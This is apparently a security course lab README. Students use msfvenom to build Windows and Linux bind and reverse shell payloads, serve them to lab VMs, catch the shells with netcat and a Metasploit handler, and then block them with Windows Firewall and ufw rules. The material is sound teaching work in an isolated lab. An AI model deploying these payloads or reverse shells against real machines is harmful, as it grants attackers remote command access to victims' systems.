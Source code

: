 # Windows Firewall
## Description
With malware generated by Metasploit, 
- bind shell
- reverse shell

practice attacking Windows without protection.

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM

## Tasks

Task 1: bind shell
---
- 1.1 What is a bind shell?
  - A bind shell listens on the target system, using a TCP or UDP port
  - This is a very simple attack, and very easily stopped by a firewall 
  - The default action of the Windows firewall is to block unexpected incoming packets, so stops this attack
- 1.2 Create a bind shell with msfvenom in Kali Linux VM 🐧, open a terminal
  ```bash
  # 1. find bind shell options, setup required options
  msfvenom -p windows/shell_bind_tcp --list-options

  # 2. create a bind shell
  msfvenom -p windows/shell_bind_tcp -f exe > ./bindShell.exe

  # 3. start a web server, wait for victims to download
  # keep the web server running
  sudo python3 -m http.server  80
  ```
- 1.3 On the Windows server VM 🪟, download and run bindShell.exe
  - open a browser and access http://Kali_IP/bindShell.exe
  - find the IP address of your Kali VM and replace Kali_IP in the URL
  - run bindShell.exe, ignore warnings and run anyway
- 1.4 view the listening process. Run a command prompt as Administrator
  ```cmd
  netstat -bano | more
  :: find bindShell.exe and its port number from the list
  ```
- 1.5 use the bind shell, on the Kali Linux VM 🐧, open another terminal
  ```bash
  # 1. connect the the bind shell
  nc Windows_IP 4444
  # A "Microsoft Window" banner appears

  :: Now you are in a windows command prompt
  :: 2. find the login account
  whoami 
  :: 3. view the network connection you are using
  netstat -an | findstr 4444
  :: don't exit or close this terminal
  ```

- 1.6 Block incoming connections to the bind shell
  - 1. On the Windows server VM 🪟, turn on Windows firewall from
    - Control Panel->System and Security->Windows Firewall ->Customize Settings
  - 2. Go back to the the previous Kali terminal with the remote Windows command prompt
    - type and commands such as help, dir, etc. you get no response
    - due the connection to bindShell.exe is blocked by Windows firewall


Task 2: reverse shell
---
- 2.1 What is a reverse shell?
  - A reverse shell originates the connection 
    - from the target server, sending a SYN out 
    - to the attacker's Command & Control server, 
      - which listens for incoming traffic
    - Any computer that allows Web browsing must allow connections to external IP addresses on common ports, such as 80 and 443, 
      - so this attack works even when Windows Firewall is on, in its default state.
- 2.2 Create a reverse shell
  - 1. on the Kali Linux VM 🐧, open another terminal
    ```bash
    # 1. list required options
    msfvenom -p windows/shell_reverse_tcp --list-options

    # 2. only LHOST is required, set it to be Kali_IP 
    msfvenom -p windows/shell_reverse_tcp LHOST=Kali_IP -f exe > reverseShell.exe

    # 3. start a Command-and-Control (C&C) server
    msfconsole
    use multi/handler
    set PAYLOAD windows/shell_reverse_tcp
    set LHOST 0.0.0.0
    exploit
    ```
  - 2. Launch the reverse shell on the Windows machine 🪟
    - open a browser, access http://Kali_IP/reverseShell.exe
    - download and run anyway
  - 3. Go back to the previous Kali Linux VM 🐧 terminal
    - a "command shell session" opens, run the following commands
      ```cmd
      # 1. view the processes you are using
      tasklist /V /FI "IMAGENAME eq *shell*"
      ```


Task 3: blocking outgoing connection with Windows firewall
---
- 3.1 From "Windows Firewall with Advanced Security", make sure Windows firewall is on for the three profiles
  - Domain profile
  - Private profile
  - Public profile
- 3.2 Create a outbound rule to block all TCP outbound connections
- 3.3 Go back to the previous Kali Linux VM 🐧 terminal, now the command shell session 1 is closed.
- 3.4 go back to the Windows machine 🪟, restore Windows firewall to its default state



## Extra credit (10%): Reverse shell on Linux

- e1. Setup an Ubuntu Linux machine, connect to the same NAT network as the Kali VM and Windows VM
- e2. Create a reverse shell malware on Kali
  ```bash
  # 1. create a reverse shell malware 
  msfvenom -p linux/x64/shell_reverse_tcp RHOST=Kali_IP -f elf > ./reverseShellLinux
  ```
- e3. Send the malware to Ubuntu by HTTP or FTP
- e4. In the reverse shell on Kali, find the malware connection
  ```bash
  # 1. start C&C
  msfconsole -q
  
  # 2. in msfconsole
  use multi/handler
  set PAYLOAD linux/x64/shell_reverse_tcp
  set LHOST 0.0.0.0

  # 3. after is running on Ubuntu
  exploit

  # 4. loot the Ubuntu victim machine
  whoami
  
  # 5. find the malware connection
  netstat -pant
  ```
- e5. Block outgoing connections with ufw on Ubuntu
  ```bash
  # 1. block outgoing connections with ufw
  sudo ufw default deny outgoing
  sudo ufw enable # go back to Kali, check the C&C

  # 2. turn off firewall
  sudo ufw disable
  ```


# Reference
- [samsclass: 15: Windows Firewall](https://samsclass.info/123/proj10/123p15fire.htm)
- [Malware attack](https://github.com/ufidon/its250/tree/master/labs/lab07)